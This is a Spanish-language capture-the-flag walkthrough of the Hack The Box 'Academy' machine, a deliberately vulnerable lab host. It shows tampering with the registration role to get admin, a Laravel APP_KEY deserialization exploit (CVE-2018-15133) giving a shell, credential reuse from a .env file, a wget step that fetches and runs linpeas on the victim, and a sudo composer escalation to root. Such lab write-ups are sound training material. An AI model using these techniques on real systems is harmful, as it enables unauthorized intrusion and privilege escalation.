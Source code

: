 # ACADEMY 

![Academy](https://user-images.githubusercontent.com/87484792/186432393-eb7af503-7ecd-438a-928b-1cd0cb754b90.png)

## Datos de interés 

**Academy** es una máquina que fue diseñada para publicitar la academia oficial de HackTheBox. **Academy** es una buena máquina y muy entretenida.
Empezaremos con un panel de registro muy parecido al de HackTheBox, tras modificar un parametro del registro podemos iniciar como una cuenta Admin.
Descubriremos un subdominio que tras la explotación de una deserializacion en Lavarel obtendremos una shell gracias a RCE. Encontraremos una contraseña de usuario en un archivo *.env*, dicho usuario tendrá permisos de ADM por lo que podremos leer archivos de log, en ellos encontramos un inicio de sesión que nos permitirá un movimiento lateral a otro user del sistema. Dicho usuario contrendrá permisos de SUDO ante un binario vulnerable que nos otorgará acceso como root.

## Enumeración

`sudo nmap --min-rate 5000 -p- -vvv -sSCV -Pn -n -oN openPorts.txt 10.10.10.215` 

![image](https://user-images.githubusercontent.com/87484792/186436105-73f78571-10c3-4bd5-950c-c8aea3b7a3bb.png)

La enumeración con NMAP nos muestra tres puertos abiertos por TCP:

- 22 (SSH)
- 80 (HTTP)
- 33060 (MySqlx)

Como vemos en la enumeración, el puerto 80 nos redigirá a un dominio virtualizado **academy.htb**. Viendo esto, añadiremos este dominio a nuestro /etc/hosts

`10.10.10.215    academy.htb`

Hecho esto, veremos el contenido de la pagina. 

![image](https://user-images.githubusercontent.com/87484792/186438999-9624a08f-2a11-45b1-9f2a-9b28f9f506df.png)

En ella encontramos unicamente un *Login* y un *Register* 
Como no tengo ninguna credencial válida, iré a registrarme. Podriamos probar credenciales comunes pero ya adelanto que no servirá. 

![image](https://user-images.githubusercontent.com/87484792/186457342-4fe2fca4-9bda-4422-aafd-3907ac18ec52.png)

En el panel de Register me registro con `admin2:admin2`, parece funcional y tiene pinta de que puedo loguearme con estas credenciales.

![image](https://user-images.githubusercontent.com/87484792/186491032-732cb7aa-c711-451b-a8f7-34bf7c8a578d.png)


El panel de login me redirige a este home.php que emula a HackTheBox. Como podemos ver los links estan capados para no dirigir a ningún lado, así que por lo que parece esto es un rabbit hole, o al menos, no es un camino útil. Podemos fuzzear a ver si encontramos algo en el panel principal, todos los archivos parecen ser *.php* así que fuzearemos con esta extensión.

![image](https://user-images.githubusercontent.com/87484792/186491864-25383487-fab4-4f74-8c53-b3e64ecde121.png)

**admin.php** me llama muchisimo la atención. Echemos un ojo.

![image](https://user-images.githubusercontent.com/87484792/186492096-a13675cf-7315-4111-b838-c6c1f2eb2074.png)

## Shell www-data

Al parecer es otro login, pero como se puede ver en el titulo, es un login de cuentas administradores.
Podiamos intentar buscar las credenciales, o bruteforcearlo, pero antes de todo.. echemos un ojo al comportamiento de la web cuando registramos una cuenta nueva.
Utilizaremos BurpSuite para enviar las request a traves de un proxy, en él, visualizaremos la data que enviamos.

![image](https://user-images.githubusercontent.com/87484792/186492718-7f9b21c1-ac7c-4293-9c42-81e046afe846.png)

**roleid** parece ser un controlador que asigna a la cuenta un "Rol". El valor inicial es un 0, pero... ¿que pasa si lo cambiamos de valor? en este caso un 1.
La creación de la cuenta es exitosa, y al probarlo en el admin.php nos da como resultado el poder adentrarnos en una "lista/tabla de tareas"

![image](https://user-images.githubusercontent.com/87484792/186493573-fa1110cb-2096-487b-9409-65cab9fe9274.png)

Tenemos un subdominio nuevo que seria muy raro que pudiesemos encontrar en un diccionario común, así que agregemoslo al */etc/hosts*

Tras ingresar en él, podemos ver que estamos antes Laravel, linkeos de rutas absolutas y algo muy interesante. **APP_KEY** se nos muestra en los archivos de configuración. En Laravel Framework hasta 5.5.40 y 5.6.x hasta 5.6.29, la ejecución remota de código puede ocurrir como resultado de una llamada de deserialización en un valor X-XSRF-TOKEN potencialmente no confiable, se presenta como CVE-2018-15133 y hay exploits disponibles.

![image](https://user-images.githubusercontent.com/87484792/186663935-bf62f34b-8f0a-426a-a872-970a791bb7a5.png)

Utilizaré algún exploit de Github, no parece muy dificil de utilizar. Tras leer un poco el exploit podemos poner un modo `--interactive` para otorgar una shell en vez de ejecutar un comando especifico. El comando quedaria así:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" --interactive`

![image](https://user-images.githubusercontent.com/87484792/186666733-7efeb5d1-f52c-4831-b112-899bcc52f3bd.png)

Me mandaré una shell a netcat, haré un tratamiento de la TTY y empezaré a investigar un poco.

## www-data ->  cry0l1t3

Tras lo anterior quedó mejor para trabajar, ahora toca investigar.

En la HOME del user, podemos encontrar la flag.

![image](https://user-images.githubusercontent.com/87484792/186687015-c127ca66-250c-473c-99ac-e4bbe5b26e9c.png)

En la pagina de Laravel veiamos que habia ciertas variables de configuración, estas variables se pueden encontrar en **.env**, donde aparecian usuarios y una contraseña "secreta". Este archivo pertenecia al subdominio encontrado, pero ¿Que pasa si lo buscamos en el academy? 

![image](https://user-images.githubusercontent.com/87484792/186669255-fee56be3-9adf-4258-b7f6-38dd305ea2a5.png)

Encontramos una contraseña, probemos a ver a que usuario pertenece.

![image](https://user-images.githubusercontent.com/87484792/186670048-dbeb3978-78cd-4bfc-af38-fb0fa44234a1.png)

El usuario es cry0l1t3, me conectaré por SSH. 

## cry0l1t3 -> Mrb3n

Lo que normalmente suelo hacer una vez entro como un usuario, es visualizar a que grupos pertenezco. Esto nos da información sobre los privilegios que tenemos sobre el sistema 

![image](https://user-images.githubusercontent.com/87484792/186673917-ae0c889b-0bae-4a81-ad26-c5ef44347ca9.png)

Pertenecemos al grupo **ADM**, este grupo nos permite leer archivos logs en */var/logs/*. Esto es muy bueno porque tenemos la posibilidad de visualizar logs de inicios de sesión. **linpeas** nos ayudará a leer todos los archivos criticos del sistema. Me lo traeré desde mi máquina y lo ejecutaré en la máquina victima.

Máquina atacante:

`python3 -m http.server 80`

Máquina victima: 

```
wget http://ip/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://user-images.githubusercontent.com/87484792/186680200-c25e5629-7b9f-42a1-82b1-2a302edebaab.png)

Linpeas encontró un inicio de sesión sobre el usuario mrb3n. `su mrb3n` y entramos a su usuario.

## mrb3n -> root

Una vez dentro de mrb3n, obtenemos una shell en "sh", ejecutamos bash y obtendremos una shell en bash.
Nuevamente me fijo en los grupos asignados al usuario, pero no hay ninguno más alla del propio grupo de usuario.
El siguiente paso que suelo hacer es verificar si tenemos algún permiso de SUDO, en este caso si.

![image](https://user-images.githubusercontent.com/87484792/186684026-334868e9-daa6-47f3-aeb5-16aa3e768d57.png)

Tenemos la posibilidad de ejecutar como cualquier usuario *sudo* el binario composer.

```
Composer es un sistema de gestión de paquetes para programar en PHP el cual provee los formatos estándar necesarios para manejar dependencias y librerías de PHP
```

Hay una pagina llamada **GTFOBins** donde podemos ver si el binario es vulnerable, y como explotarlo, para conseguir una escalada de privilegios.
En este caso es vulnerable, podemos escalar por SUDO, así que seguiremos los pasos.

![image](https://user-images.githubusercontent.com/87484792/186684937-86a89b38-87df-446b-9b17-1f1ffbf1e650.png)

Una vez ejecutado:

![image](https://user-images.githubusercontent.com/87484792/186685900-651947be-8f62-4fdc-a0e5-7b3b5353e4ca.png)

Listo! ya tendriamos acceso como root y podriamos visualizar la flag de root

-------------------------------------------------------------------------------------------------------------------------

Muchas gracias por visualizar mi write up, se agradece respect en HTB :)

¡Happy Hacking! ^_^

Fd: Ly0nt4r



